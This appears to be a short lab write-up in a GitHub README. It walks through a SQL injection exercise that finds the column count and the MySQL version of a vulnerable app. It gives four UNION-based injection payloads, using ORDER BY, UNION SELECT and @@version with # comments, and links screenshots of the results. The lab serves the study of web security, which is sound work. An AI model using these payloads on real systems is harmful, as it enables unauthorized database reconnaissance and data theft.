 # SQL-injection-attack-querying-the-database-type-and-version-on-MySQL-and-Microsoft

> # (1) To findout existing column: 'ORDER BY 1--. But got internal server error. because in mysql database the comment method is comment# instead of comment--
![image](https://user-images.githubusercontent.com/59218362/208425263-71407b5f-78ac-4af4-a82d-2ec59cdf2108.png)

> # (2) After giving the query for mysql database: 'ORDER BY 1#. Here, we got the 2 columns are available.
![image](https://user-images.githubusercontent.com/59218362/208426681-15809a80-2558-44c8-a910-aca4e9abf3e8.png)
![image](https://user-images.githubusercontent.com/59218362/208426554-94ad84db-bd2e-451e-baba-e1372c79e782.png)

> # (3) To findout which column are data retrieving: 'UNION SELECT 'Data','Data'#. Both two columns are retrieving data
![image](https://user-images.githubusercontent.com/59218362/208427762-f3434c3d-dcc8-4e87-89bd-14d849c2e236.png)

> # (4) To know the version of mysql database: 'UNION SELECT @@version, NULL#
![image](https://user-images.githubusercontent.com/59218362/208429320-ff2fbadf-fea8-4727-acfc-fb7deb462fe7.png)
